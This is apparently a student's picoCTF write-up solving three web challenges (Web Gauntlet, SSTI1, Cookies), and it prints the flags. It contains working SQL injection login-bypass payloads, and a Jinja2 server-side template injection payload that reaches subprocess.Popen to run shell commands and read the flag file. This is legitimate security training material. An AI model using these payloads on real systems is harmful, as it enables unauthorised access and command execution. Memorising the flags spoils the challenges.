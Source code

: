 # Web Gauntlet

Can you beat the filters?Log in as admin 
http://shape-facility.picoctf.net:56097/
http://shape-facility.picoctf.net:56097/filter.php

# Solution

At the start the login screen is just basically just like this


![Screenshot](./Screenshots/pasted_image_9.png)

While I enter the username and password to be admin and admin

```sql
SELECT * FROM users WHERE username='admin' AND password='admin'
```

This is the background output I get.
From this I am able to realize that if I know the correct username to be admin if I am able to comment out the rest of the things I will pass. 

### Round 1 soln:-

Hence I enter the following username

```sql
admin'--
```

The password I enter is `fraud`

### Round 2 soln:-

In this round I was given the following restrictions:-
`Round2: or and like = --`

Using this type of comment was no longer allowed so I just duckduckgoed how to find a way around this. I realised that we can just use `/*` to comment out multiple lines


```sql
admin' /*
```

and kept the same password. 

### Round 3 soln:-

Round 3 restriction `Round3: or and = like > < --`  For this round we can just use the termination statement for sql

```sql
admin';
```

## Round 4 soln:-

Round 4 restriction `Round 4:Round4: or and = like > < -- admin`
In this round we are not allowed to type `admin` anymore so basically we can use the concatenation and just try to solve

```sql
admi'||'n';
```

## Round 5 soln:-

The round 4 and round 5 have the same restrictions hence we don't need to make any changes and can solve using the same thing

```sql
admi'||'n';
```

## Flag:-

picoCTF{y0u_m4d3_1t_79a0ddc6}

## Resources:-

https://solutioncenter.apexsql.com/rules-of-sql-formatting-terminating-sql-statements-with-semicolons/



# SST1:-

I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:62569/)!

## Solution

From the hint I was able to infer that we have to use Server Side Template Injection. 

The first step in Server Side Template Injection according to the below resource is to check which time of template engine is being used over here. 
The list of input is:-

```
- {{7*7}} (Jinja2)
- <%= 7*7 %> (ERB/Ruby)
- ${7*7} (Thymeleaf)
```

as only the first input worked I understood that the question is using Jinja2 template engine. 

In order to exploit this Jinja2 engine we can inject a command 
```jinja2
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This will give us the list of all classes loaded in the memory. 
`subprocess.Popen` is the class that will be used in order to execute commands. 
However in order to execute that class I have to find it's index number. 


![Screenshot](./Screenshots/pasted_image_10.png)

Through `ctrl + f` I was able to find it to be the 356th index and then I can execute any command I want. 

```Jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate() }}
```

The above command give us the list of files present. 
`# (b'__pycache__\napp.py\nflag\nrequirements.txt\n', None)`

From the above output we are able to infer that we are supposed to read this `requirements.txt`

Let us run the above command again.
```jinja2
{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate() }}
```

The output of this is:-

`# (b'picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}', None)`

## Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}

## Resources:-

https://medium.com/@vickemboi/server-side-template-injection-ssti-a-complete-beginners-guide-55f4a6bd9294
https://retherszu.github.io/vulnerabilities/web/server-side-template-injection/ssti-in-jinja2.html



# Cookies:-

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)

## Solution

After loading the website this is the screen we get 

![Screenshot](./Screenshots/pasted_image_11.png)

I also opened the cookies tab simultaneously to inspect what is going on over there. 

![Screenshot](./Screenshots/pasted_image_12.png)

Initially I thought of entering the `name` inside the search box in order to solve but since that didn't work I enter snickerdoodle. 

![Screenshot](./Screenshots/pasted_image_13.png)

This was the new output I got and the value of the cookie changed from -1 to 1. 

I kept putting in random values of the cookie. Then after some advise. I started putting values in ascending order like 1,2,3,4,5. When i reached 18 it gave me the flag.

## Flag

`picoCTF{3v3ry1_l0v3s_c00k135_064663be}`

